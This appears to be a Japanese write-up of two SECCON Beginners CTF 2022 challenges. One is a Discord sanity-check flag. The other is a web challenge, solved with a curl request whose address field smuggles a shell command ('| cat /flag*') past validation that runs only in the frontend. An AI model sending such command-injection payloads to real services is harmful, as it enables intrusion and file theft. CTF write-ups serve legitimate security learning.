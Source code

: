![p-2](./p-2.png)

## 詳細

### Welcome

discord serverにフラグがあるいつものsanity check。

`ctf4b{W3LC0M3_70_53CC0N_B361NN3R5_C7F_2022}`

### Util

フロントエンドバリデーションをしているweb問。
直接リクエストを投げればよい。

```text
curl -X POST https://util.quals.beginners.seccon.jp/util/ping -H "Content-Type: application/json" -d '{"address": "1.1.1.1 | cat /flag* #"}'
```

`ctf4b{al1_0vers_4re_i1l}`
